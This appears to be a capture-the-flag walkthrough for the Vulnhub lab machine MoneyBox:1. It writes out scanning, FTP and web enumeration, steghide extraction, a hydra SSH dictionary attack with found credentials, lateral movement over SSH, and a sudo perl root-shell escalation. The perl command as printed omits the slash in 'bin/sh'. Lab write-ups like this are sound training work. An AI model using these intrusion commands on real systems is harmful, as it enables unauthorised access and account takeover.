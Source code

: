 ## **MONEYBOX:1**

This box was built by **Kirthik_T** and is available for download at <a href="http://vulnhub.com"> Vulnhub.com </a>

We start this box by finding the ip using netdiscover:

```
sudo netdiscover -r <ip_address_range>
```

<img src="netdiscover.png">

Now that we have the IP, we can run nmap to find the open ports:

```
sudo nmap -A -v <target_ip_address>
```

When we run this command, we can see that on this machine, the ports 22 and 80 are open:

<img src="nmap.png">

Nmap lets us know that on this machine, anonymous login is enabled on the ftp service. That means we can log in to the ftp service using username: anonymous and password: anonymous. In this case, we have a file available for download called trytofind.jpg. We can go ahead and download that file.

```
ftp <target_ip_address>
Name: anonymous
Password: anonymous
ftp> ls
ftp> get trytofind.jpg
```

<img src="ftp.png">

I tried to run this through stegseek, but got no results.

Now let's explore the web server. The webpage is very simple and really contains nothing interesting:

<img src="plain_webpage.png">

Let's run dirb to see if there are any interesting directories to explore:

```
dirb <target_ip_address>
```

We find a directory on the page called /blogs:

<img src="dirb.png">

Let's navigate here and check it out:

<img src="plain_blogs_webpage.png">

Let's view the source:

<img src="blogs_webpage_source.png">

The code contains a hint that there is another directory we can explore! So let's navigate there and view-source:

<img src="secret_webpage_source.png">

Ah, there's a secret key! Probably the passphrase to extract stegonographic data from that jpg file. Let's go ahead and run steghide with the secret key as the password. For this command, ```--extract``` specifies the mode yuou wish to use, and ```-sf``` specifies the file in question.

```
steghide --extract -sf trytofind.jpg
Passphrase: 3xtr4ctd4t4
```

It worked! The data has been extracted to a file called data.txt, so let's check it out:

```
cat data.txt
```

<img src="steghide.png">

We see a possible username we can use for ssh: renu. We also see that renu is using a weak password, so let's use hydra to try a dictionary attack on the ssh service using rockyou.txt. For hydra, ```-I``` ignores the restore file so we don't have to wait 10 seconds, ```-l``` specifies the username, ```-P``` specifies a password list to use, then you add the target ip, ```-t``` specifies the number of threads to use, and finally you add the service you are targeting so hydra knows what port to use.

```
hydra -I -l renu -P /usr/share/wordlists/rockyou.txt <target_ip_address> -t 20 ssh
```

<img src="hydra.png">

The attack is successful and now we have renu's password, so let's go ahead and ssh into the machine:

```
ssh renu@<target_ip_address>
Password: 987654321
```

<img src="ssh_renu.png">

Now that we're in, we can explore renu's home directory, and we find a user flag:

```
ls
cat user1.txt
```

<img src="user1_flag.png">

Now let's see if we have any other user directories:

```
cd ..
ls
cd lily
ls
cat user2.txt
```

<img src="user2_flag.png">

So that's 2 flags down. When we try to navigate to the root directory, we get a permission denied message, so we don't have root access.

```
cd /root
```

<img src="root_permission_denied.png">

Let's see if lily has any hidden files or directories:

```
ls -la
```

And yes, we do! That .ssh directory seems interesting, so let's check it out:

```
cd .ssh
ls -la
```

<img src="lily_hidden_files.png">

We have a file called authorized_keys, so let's check it out:

```
cat authorized_keys
```

<img src="authorized_keys.png">

This is an RSA key for ssh, meaning that as renu, we can ssh into lily at the localhost! So let's become lily and see what we can see:

```
ssh lily@127.0.0.1
```

<img src="ssh_lily.png">

Now that we are a different user, let's check our sudo permissions and see if we can leverage those for privilege escalation:

```
sudo -l
```

<img src="lily_sudo_perm.png">

It looks like lily has sudo permission to use perl with no password! We can definitely use that to get a root shell. After a quick web search, I come across this command:

```
sudo perl -e 'exec "bin/sh";'
```

When we execute this command, we get a shell and with a quick ```whoami``` command, we see we are root now!!

<img src="priv_esc.png">

Now, let's go to the root directory and grab that root flag! In this case, the root flag is hidden, so don't forget to add that ```-la``` flag to ```ls```

```
cd /root
ls -la
cat .root.txt
```

<img src="root_flag.png">

And that's it! We've rooted the box! Hope you enjoyed this walkthrough.
